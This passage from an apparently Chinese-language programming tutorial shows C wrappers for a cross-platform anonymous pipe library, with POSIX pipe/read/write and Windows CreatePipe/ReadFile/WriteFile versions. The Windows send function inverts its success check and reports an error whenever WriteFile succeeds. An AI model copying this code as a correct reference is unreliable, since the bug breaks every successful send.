scpipe_delete(scpipe_t spie) {
	if (spie) {
		close(spie->recv);
		close(spie->send);
		free(spie);
	}
}

int 
scpipe_recv(scpipe_t spie, void * data, size_t len) {
	ssize_t lrecv = read(spie->recv, data, len);
	if (lrecv < 0) {
		// 不考虑信号中断
		RETURN(ErrBase, "read is error = %ld", lrecv);
	}
	return (int)lrecv;
}

int 
scpipe_send(scpipe_t spie, const void * data, size_t len) {
	ssize_t lsend = write(spie->send, data, len);
	if (lsend < 0) {
		RETURN(ErrBase, "write is error = %ld", lsend);
	}
	return (int)lsend;
}
```

    核心在 pipe 函数上面. 后面只是对器行为的封装. pipefd[0] 接收读取, pipefd[1] 发送.
    对于 winds 封装也是照虎画豹.

```C
struct scpipe {
	HANDLE recv;
	HANDLE send;
};

scpipe_t 
scpipe_create(void) {
	scpipe_t spie = malloc(sizeof (struct scpipe));
	SECURITY_ATTRIBUTES sa = { sizeof(SECURITY_ATTRIBUTES), NULL, TRUE };
	assert(NULL != spie);
	if (!CreatePipe(&spie->recv, &spie->send, &sa, 0)) {
		free(spie);
		RETURN(NULL, "CreatePipe error!");
	}
	return spie;
}

inline void 
scpipe_delete(scpipe_t spie) {
	if (spie) {
		CloseHandle(spie->recv);
		CloseHandle(spie->send);
		free(spie);
	}
}

int 
scpipe_recv(struct scpipe * spie, void * data, size_t len) {
	DWORD lrecv = 0;
	BOOL ret = PeekNamedPipe(spie->recv, NULL, 0, NULL, &lrecv, NULL);
	if (!ret || lrecv <= 0) {
		RETURN(ErrEmpty, "PeekNamedPipe recv empty error!");
	}

	// 开始读取数据
	ret = ReadFile(spie->recv, data, len, &lrecv, NULL);
	if (!ret) {
		RETURN(ErrBase, "ReadFile is error!");
	}

	return (int)lrecv;
}

int 
scpipe_send(struct scpipe * spie, const void * data, size_t len) {
	DWORD lsend = 0;
	if (WriteFile(spie->send, data, len, &lsend, NULL)) {
		RETURN(ErrBase, "WriteFile is error!");
	}
	return (int)lsend;
}
``` 

    到这里你也许需要下面这个宏包裹一下

```C
#include "scpipe.h"

#ifdef __GNUC__

#elif _MSC_VER

#else
#	error "error : Currently only supports the Best New CL and GCC!"
#endif
```

    到这里基本一套基础的管道协助的库就搭建完毕了. 使用非常简单. 创建后 send 和 recv.

##

    会补充, 这章缺很多东西 ~
